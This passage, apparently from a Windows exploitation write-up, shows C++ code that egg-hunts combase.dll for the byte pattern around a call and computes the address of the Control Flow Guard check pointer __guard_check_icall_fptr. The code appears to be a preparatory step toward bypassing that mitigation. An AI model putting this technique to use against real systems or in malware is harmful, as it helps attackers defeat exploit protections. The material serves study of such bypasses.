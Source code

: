 Now that we know our egg, we can define and hunt for it as follows, we will be using the EggHunt function from VX-API (thanks vx-underground <3):

```cpp
//
// Search a region of memory for an egg. Returns NULL on failure.
//
PVOID EggHunt(_In_ PVOID RegionStart, _In_ SIZE_T RegionLength, _In_ PVOID Egg, _In_ SIZE_T EggLength)
{
    if (!RegionStart || !RegionLength || !Egg || !EggLength)
        return NULL;

    for (CHAR* pchar = (CHAR*)RegionStart; RegionLength >= EggLength; ++pchar, --RegionLength)
    {
        if (memcmp(pchar, Egg, EggLength) == 0)
            return pchar;
    }
    return NULL;
}

int main(void)
{
    HMODULE combase = LoadLibraryA("combase.dll");
    
    FARPROC NdrProxyForwardingFunction13 = GetProcAddress(combase, "NdrProxyForwardingFunction13");
    LOG_INFO("NdrProxyForwardingFunction13 @ 0x%016llx", (size_t)NdrProxyForwardingFunction13);

    BYTE egg___guard_check_icall_fptr[] = {
        0x4c, 0x8b, 0x11,        // mov     r10, qword [rcx]
        0x49, 0x8b, 0x4a, 0x68,  // mov     rcx, qword [r10+0x68]
        0xff, 0x15               // call    qword [rel __guard_check_icall_fptr]  {_guard_check_icall_nop}
        // next 4 bytes are the offset
    };

    BYTE* egg_location = (BYTE*)EggHunt(NdrProxyForwardingFunction13, 256, egg___guard_check_icall_fptr, sizeof(egg___guard_check_icall_fptr));
    if (!egg_location)
    {
        LOG_ERROR("Failed to locate __guard_check_icall_fptr call offset @ combase.dll!NdrProxyForwardingFunction13");
        return;
    }
    BYTE* egg_end = egg_location + sizeof(egg___guard_check_icall_fptr);
    LOG_INFO("combase.dll!__guard_check_icall_fptr egg @ %p", egg_location);
    LOG_INFO("combase.dll!__guard_check_icall_fptr egg_end @ %p", egg_end);

	DWORD offset = *(DWORD*)egg_end;
    LOG_INFO("combase.dll!__guard_check_icall_fptr call offset => 0x%08lx", offset);
    FARPROC* __guard_check_icall_fptr = (FARPROC*)(egg_end + offset + sizeof(DWORD));
    FARPROC _guard_check_icall_nop = *__guard_check_icall_fptr;
    LOG_SUCCESS("combase.dll!__guard_check_icall_fptr @ %p", __guard_check_icall_fptr);
    LOG_SUCCESS("combase.dll!_guard_check_icall_nop @ %p", _guard_check_icall_nop);
}
```
